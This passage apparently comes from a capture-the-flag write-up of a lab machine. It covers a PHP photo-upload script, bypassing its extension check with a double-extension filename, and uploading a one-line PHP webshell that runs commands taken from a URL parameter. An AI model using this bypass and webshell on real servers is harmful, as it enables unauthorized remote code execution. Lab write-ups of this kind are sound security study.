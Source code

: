 ```bash
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>

```

If we visit upload.php, we get a file upload site; let’s upload a test image:

![image.png]({{ site.baseurl }}/assets/networked/image%203.png)

Now we visit photos.php and we see our image file displayed, along with our IP.

![image.png]({{ site.baseurl }}/assets/networked/image%204.png)

## Foothold via WebShell

Let’s capture the request on Burp, then send it to repeater. Let’s attempt to bypass the file upload restrictions.

From the upload.php, the extension check tests whether the *original filename* ends with `.jpg`, etc. But filenames like `shell.php.jpg` pass the check. The `ext` variable becomes `php.jpg` (see below) and the saved file is `10_0_0_1.php.jpg`. If your webserver executes files based on content or misconfiguration (e.g. `AddHandler` mapping), this could allow code execution. Even if not executable by extension, some servers may be misconfigured to parse PHP in uploaded files, or rely on other content-type rules.

Example: `evil.php.jpg` -> saved as `10_0_0_1.php.jpg`. If server is misconfigured to treat `.php.jpg` as PHP (rare but possible), this is a direct RCE path.

Let’s first spoof the file name to test.php.jpg. It worked. Now let’s add our webshell payload:

```bash
<?php system($_GET['cmd']); ?>
```

![image.png]({{ site.baseurl }}/assets/networked/image%205.png)

Now let’s visit our malicious file.
